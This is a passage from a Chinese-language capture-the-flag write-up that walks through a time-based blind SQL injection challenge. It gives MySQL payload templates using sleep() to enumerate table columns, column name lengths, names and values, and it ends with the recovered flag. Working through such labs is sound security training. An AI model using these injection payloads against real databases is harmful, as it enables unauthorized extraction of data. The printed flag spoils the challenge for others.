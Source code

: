 ![image-20210723125813557](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723125813.png)

由上图可知第2张表的第一个字符值ascii码为102时延迟语句执行成功，该ASCII码对应字符为f，继续推断后续的字符值后得知该表名称为flag，另一张表名为news。

7、根据表名开始枚举表中的字段数，构造语句为：

```mysql
1 and if((select count(column_name) from information_schema.columns where table_name='$table_name')=$num,sleep(3),1)
```

其中`$table_name`为待查询的表名，`$num`为待查询的表名中的字段数。结果如下：

![image-20210723130520023](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723130520.png)

由上图可知flag表中的字段数为1的时候，延迟函数执行，故flag表中只有一个字段；查询另一张news表中有两个字段数。

8、根据字段数、表名开始枚举字段长度，构造语句为：

```mysql
1 and if((select length(column_name) from information_schema.columns where table_name='$table_name' limit $num1,1)=$num2,sleep(3),1)
```

其中`$table_name`为待查询相关字段数的表名，`$num1`为待查询的第几个字段，从0开始递增，0表示第一个字段，`$num2`表示字段的长度值，如图：

![image-20210723132653229](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723132653.png)

由图可知，flag表中第一个字段的长度值为4；news表中第一个字段长度值为2，第二个字段长度值为4。

9、根据字段长度枚举字段值，构造语句为：

```mysql
1 and if(ascii(substr((select column_name from information_schema.columns where table_name='$table_name' limit $num1,1),$num2,1))=$ascii_num,sleep(3),1)
```

其中`$table_name`表示待查询的表名，`$num1`表示待查询的字段，0开始递增，0表示第一个字段，`$num2`表示该字段的第几个字符，1开始递增查询，1表示第一个字符，`$ascii_num`表示对应ASCII码，如图：

![image-20210723133309601](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723133309.png)

上图可知flag表中第一个字段的第一个字符的ASCII码值为102，即f，延迟函数执行成功。并同理算出完整的字段为flag；news表第一个字段为id，第二个字段为data。

10、根据上述的库名、表名、字段名，就可以开始算字段对应的值了，构造语句为：

```mysql
1 and if(ascii(substr((select $column_name from $table_name limit $num1,1),$num2,1))=$ascii_num,sleep(3),1)
```

其中，`$column_name`为字段名，`$table_name`为表名，也可以是`库名.表名`的形式，`$num1`为第几行的值，从0开始，0表示该字段中的第一行值，`$num2`表示该行字段的第几个值，从1递增，1表示该字段的第一个值，`$ascii_num`表示ASCII码。

![image-20210723134034318](https://{{site.PicturesLinks_Domain}}/images/2021/07/23/20210723134034.png)

由上图可知，flag表中的flag字段第一行的第一个字符值的ASCII码值为99，即c，于是根据后面的测试，得到字段值为`ctfhub{514f8991817a193a354e1939}`，提交，成功通过。

## SQL Cookie注入
